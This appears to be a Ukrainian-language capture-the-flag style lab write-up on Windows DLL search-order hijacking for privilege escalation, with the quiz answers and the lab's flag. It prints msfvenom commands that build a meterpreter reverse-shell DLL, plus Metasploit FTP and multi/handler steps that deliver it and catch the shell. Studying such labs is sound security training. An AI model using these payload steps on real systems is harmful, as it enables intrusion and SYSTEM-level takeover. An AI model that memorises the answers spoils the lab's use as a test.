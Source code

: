 Що таке DLL 
Бібліотека динамічних посилань (DLL) є основним компонентом операційної системи Windows. Вони часто пишуться як бібліотека для зберігання коду або функцій, які можуть використовуватися кількома програмами. Якщо зловмисник може контролювати, яку DLL завантажує програма, то зловмисник може вставити шкідливу DLL в процес завантаження DLL. Цей процес відомий як порядок пошуку DLL.

Порядок пошуку DLL 
Коли програма виконується часто чи ні, для її запуску потрібен набір залежностей. Це DLL. Якщо програмі потрібно використовувати частину функціональності, що міститься в DLL, їй спочатку потрібно буде завантажити цю DLL. Перед завантаженням DLL операційна система знайде необхідні DLL, шукаючи набір каталогів у певному порядку. Якщо явний шлях не визначено, Windows використовуватиме такий порядок пошуку, щоб знайти DLL в системі:

    1. Каталог, з якого завантажувалася програма.
    2. Поточний каталог.
    3. Системний каталог. | C:\Windows\System32
    4. 16-розрядний системний каталог | C:\Windows\System
    5. Каталог Windows | C:\Windows
    6. Каталоги, перераховані у змінній середовища PATH.

DLL Hijacking
Якщо DLL відсутня в системі, а зловмисник має доступ на запис до будь-якої теки в наведеному вище порядку пошуку, він може перемістити DLL в теку з іменем відсутньої DLL. Потім це буде завантажено програмою, яка дозволить виконувати код у контексті користувача, який запускає програму (що може бути в контексті СИСТЕМИ). Крім того, якщо DLL дійсно існує в системі, але знаходиться в теці, яка є низькою в порядку пошуку (тобто в каталозі в PATH), і є тека, до якої зловмисник може записати далі в порядку пошуку, тоді замість нього буде завантажено DLL зловмисника.

У цій лабораторії 
У цій лабораторній роботі розробник інсталював спеціальну службу на машині Windows під назвою «Служба налагодження розробника», яка працює як СИСТЕМА і налаштована на запуск під час запуску. Ця служба шукає відсутню DLL під назвою «Debug.dll». Ваше завдання полягає в тому, щоб створити шкідливе DLL-навантаження за допомогою msfvenom, знайти каталог, з якого служба намагається викликати відсутню DLL, захопити процес порядку пошуку, щоб підвищити привілеї та прочитати токен.

Завдання на цю лабораторну:
    1. Знайдіть каталог із доступом до запису, який шукається, коли Windows намагається знайти DLL
    2. Використовуючи msfvenom, створіть корисне навантаження DLL, яке можна додати до каталогу
    3. Отримайте доступ до СИСТЕМИ та прочитайте, що міститься у файлі C:/token.txt

Перше запитання:
Який каталог можна використовувати для захоплення відсутньої DLL?
    - javapath

Для початку ми відкриваємо термінал PowerShell, для того, щоб дізнатись, чи є у нас доступ для запису до вищевказаних директорій. Перевіряємо їх доступність за допомогою наступної команди: (Get-Acl $Path).AccessToString. Тепер коли ми визначили директорію, нам залишається лише вписати відповідь.

Друге запитання:
Який маркер всередині C:\token.txt?
    - g00d3ff0rth3r3saflag

MSFVenom – безплатний інструмент для створення корисного навантаження (шкідливого файлу). Це, як кажуть, двоюрідний брат Metasploit. З його допомогою ви можете створювати різні корисні навантаження, шелл-код та зворотний шелл. 

Reverse TCP (зворотне підключення, зворотний шелл, пейлоад) - схема взаємодії з цільовим комп'ютером. Говорячи простою мовою. Ми створюємо шкідливий файл (корисне навантаження), після запуску якого цільовий комп'ютер намагатиметься підключитися до нашого комп'ютера. Це називається «бекконнект» або в нашому випадку зворотний шелл, тому що «бекконнект» - це поняття розтяжне.

Metasploit – це платформа для тестування на проникнення, з якою ви можете знаходити, експлуатувати та підтверджувати вразливість.

Meterpreter — розширена функціональна начинка (Payload), яка може бути динамічно розширена під час виконання. У нормальних умовах це означає, що це забезпечує Вас основною оболонкою і дозволяє Вам додавати нові особливості до неї в міру необхідності.

FTP (англ. File Transfer Protocol, укр. протокол передавання файлів) — стандартний мережевий протокол прикладного рівня призначений для пересилання файлів між клієнтом та сервером в комп'ютерній мережі.

Для початку ми створюємо payload, це робиться наступним чином: msfvenom -p windows/meterpreter/reverse_tcp lhost=localhost lport=5555 -f exe > /path/Debug.dll
 - -p: тип корисного навантаження;
 - lhost: ip адреса поточної машини; 
 - lport: локальний порт поточної машини;
 - -f: для якого типу потрібно створювати корисне навантаження;

Після чого наша задача полягає в передачі файлу на іншу віртуальну машину. Це можна зробити декількома варіантами, але в нашому випадку я знайшов один для себе, а саме через відкриття локального FTP сервера через msfconsole.

Для початку розгорнемо сервер FTP наступними діями:
```
    msfconsole
    msf > use auxiliary/server/ftp
    msf > set FTPROOT /tmp/ftproot
    msf > set SRVHOST localhost
    msf > set SRVPORT [1022 > 65535]
    msf > exploit
```

Тепер ми переходимо на віндовс машину, після чого переходимо в адресну стрічку браузера, де ми вписуємо:
```
    ftp://srvhost:srvport
```
І просто завантажуємо інтересуючий нас файл, після чого переміщуємо у вище визначену директорію. Далі ми завершаємо сесію msfconsole й відкриваємо нову з використанням експлойта handler:
```
    msfconsole
    msf > use exploit/multi/handler
    msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
    msf exploit(handler) > set lhost localhost
    msf exploit(handler) > set lport localport
    msf exploit(handler) > exploit
```

При правильному виконанні  всіх дій, наступним нашим кроком буде відкриття сервісних служб у віндовс, для того, щоб запустити:  "Служба налагодження розробника", яка підвантажити нашу створену корисне навантаження. Після чого відкриється meterpreter сесія на машині Kali, де ми зможемо прочитати токен за допомогою команди:
```
    more C:\token.txt
```

Третє запитання:
Який 4-й крок у порядку пошуку DLL?
    - 16-розрядний системний каталог

Четверте запитання:
Правда чи неправда. Якщо DLL існує в системі, зловмисник все ще може використати порядок пошуку за допомогою шкідливої ​​DLL?
    - Правда, адже можна використати каталог вищого порядку

П'яте запитання:
Що з наведеного нижче найкраще описує викрадення DLL?
    - Використання недоліків у процесі заміщення файлу в директорії вищого порядку для пошуку DLL